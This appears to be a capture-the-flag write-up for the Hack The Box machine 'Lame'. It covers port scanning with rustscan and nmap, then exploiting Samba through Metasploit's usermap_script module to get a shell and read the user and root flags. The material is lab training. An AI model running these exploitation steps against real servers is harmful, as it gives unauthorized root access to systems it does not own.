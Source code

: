 # ****Lame****

```bash
rustscan -a 10.10.10.3
```

![Untitled](https://github.com/lufffe/Writeups/assets/90646635/6efb5f15-da57-45bb-95c6-ec7ee47a2fa2)

```bash
nmap -A -p 21,22,139,445,332 10.10.10.3 -Pn
```

![Untitled](https://github.com/lufffe/Writeups/assets/90646635/6fcd0ee4-f89b-4ad0-a6f4-7aa9b87c7447)


### FTP - Nada Encontrado


![image](https://github.com/lufffe/Writeups/assets/90646635/02edc325-fa94-4adc-9310-acbc60314a50)

```bash
msfconsole
```

![image](https://github.com/lufffe/Writeups/assets/90646635/59827a74-da5a-42f9-af26-bf5dcdf666f3)

<aside>
💡 https://www.exploit-db.com/exploits/16320
</aside>

![image](https://github.com/lufffe/Writeups/assets/90646635/d61b302a-9f86-4b48-8ffc-946c8b6ff51c)

```bash
search username map script
```

![image](https://github.com/lufffe/Writeups/assets/90646635/30b28df0-9074-42e4-bd3e-b8470a448e65)

###  Metasploit

```bash
msf6 > use 1
```

```bash
msf6 exploit(multi/samba/usermap_script) > show options
```

```bash
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
```

```bash
msf6 exploit(multi/samba/usermap_script) > set lhost 
```

```bash
msf6 exploit(multi/samba/usermap_script) > exploit
```

![image](https://github.com/lufffe/Writeups/assets/90646635/eaad40bd-1792-4292-90d4-d495e3843c7d)

pwd
/home/makis

```bash
cat user.txt
```

pwd /root/
```bash
cat /root/root.txt
```
